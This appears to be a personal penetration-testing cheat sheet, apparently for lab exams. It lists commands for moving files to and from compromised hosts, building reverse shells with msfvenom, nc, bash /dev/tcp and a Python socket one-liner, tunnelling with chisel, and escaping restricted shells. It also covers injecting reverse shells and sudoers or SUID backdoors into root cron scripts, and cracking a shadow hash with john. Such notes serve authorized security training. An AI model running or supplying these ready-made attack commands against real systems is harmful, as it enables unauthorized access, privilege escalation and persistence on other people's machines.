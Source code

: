 
### transfer files

##### scp

on the kali
```
sudo service ssh start
```

on the remote
```
from kali to target:
scp pinklii@<ip>:<s_path> <d_path>

from target to kali:
scp <s_path> pinklii@192.168.45.238:<d_path>
```

then on the kali
```
sudo service ssh stop
```

##### nc

open lister on kali
```
nc -lvnp 8080 > dest_file
```

on target
```
cat dest_file > /dev/tcp/kali_ip/8080
```
##### wget

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

on target:
```
wget -f http://<ip>:<port>/<file_path>
```

##### curl

open python server on kali or apache server

apache
```
systemctl restart apache2
```

python
```
python3 -m http.server 8000
```

```
curl http://<ip>:<port>/<file_path> > file
```


##### FTP / TFTP

start ftp server and upload/download files

##### metasploit

create meterpreter shell and use upload and download modules


### compile

on my kali (ARM) for arch x86_64 linux machine
```
x86_64-linux-gnu-gcc -o exploit exploit.c
```

shared object
```
gcc -o my_program my_program.c -Wl,--dynamic-linker=/lib64/ld-linux-x86-64.so.2
```
### revers shell

msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

msfvenom -p linux/x86/shell_reverse_tcp -f elf -o shell LHOST=IP LPORT=PORT

msfvenom -p cmd/unix/reverse_bash LHOST=192.168.45.160 LPORT=4444 -f raw -o shell.sh
```

nc
```
nc -e /bin/sh 192.168.45.160 8000
```

bash/sh
```
/bin/sh -i >& /dev/tcp/192.168.45.160/4444 0>&1

/bin/bash -i >& /dev/tcp/192.168.45.160/4444 0>&1

bash -i >& /dev/tcp/192.168.45.160/4444 0>&1
```

python
```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.17.1",1337)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

normal shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
import pty; pty.spawn("/bin/bash")
/bin/bash -i
```

### Tunnel

In local machine,

```
./chisel_server server -p 9001 --reverse
```

In target machine,

```
wget http://192.168.45.176:8000/chisel/chisel_linux64

chmod +x chisel_linux64

./chisel_linux64 client 192.168.45.160:9001 R:6379:127.0.0.1:6379
```

### escape rbash
```
eleanor@peppo:~$ed
!'/bin/bash'
eleanor@peppo:~$export PATH=/bin:/sbin:/usr/bin:/usr/sbin:$PATH
```

### search file

```
find / -type f -name "local.txt" 2>/dev/null

# files that run as root and I can change them
find / -user root -perm -o+w -type f -name "*.sh" 2>/dev/null

find / -user root -perm -o+w -type f -name "*.py" 2>/dev/null
```

### cron jobs manipulation

revers shell
```
echo "/bin/sh -l > /dev/tcp/192.168.45.202/80 0<&1 2>&1" >> /opt/log-backup.sh
echo 'bash -c "bash -i >& /dev/tcp/10.10.16.4/9999 0>&1"' > privesc.sh
```

SUID / SUDO
```
echo "chmod u+s /bin/bash" >> /opt/log-backup.sh
echo "observer ALL=(root) NOPASSWD: ALL" > /etc/sudoers
```

### crack shadow password

```
└─$ cat thor.txt          
thor:$6$l2ThCEsvmrzmkKIA$FWtAb1SsYFqAXA96Ze4uGTHtPV9HNi7ShAgoTet1gx.HvkEFePp.Bk/uBeuxpCMz/X3jXWbGavj11po9H/FzP.

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt thor.txt --format=crypt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
valkyrie         (thor)     
1g 0:00:00:04 DONE (2024-09-16 16:58) 0.2487g/s 5349p/s 5349c/s 5349C/s mydarling..230990
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

if doesnt work try to write to shadow file: https://int0x33.medium.com/day-40-privilege-escalation-linux-by-modifying-shadow-file-for-the-easy-win-aff61c1c14ed

### abuse PATH

```
export "PATH=$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

